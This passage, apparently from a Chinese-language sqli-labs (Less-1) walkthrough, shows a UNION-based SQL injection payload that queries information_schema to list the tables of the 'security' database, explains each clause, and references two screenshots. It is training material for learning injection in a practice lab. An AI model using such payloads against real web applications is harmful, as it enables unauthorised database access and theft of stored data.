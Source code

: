 

4. 注入<code>?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+</code>爆数据表，

~~~ shell
?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+

information_schema.tables表示该数据库下的tables表，点表示下一级;where后面是条件，group_concat()是将查询到结果连接起来;如果不用group_concat查询到的只有user;
该语句的意思是查询information_schema数据库下的tables表里面且table_schema字段内容是security的所有table_name的内容，也即下面表格user和passwd;
~~~

![Less-1_22](./img/Less-1_22.png)



![Less-1_16](./img/Less-1_16.png)
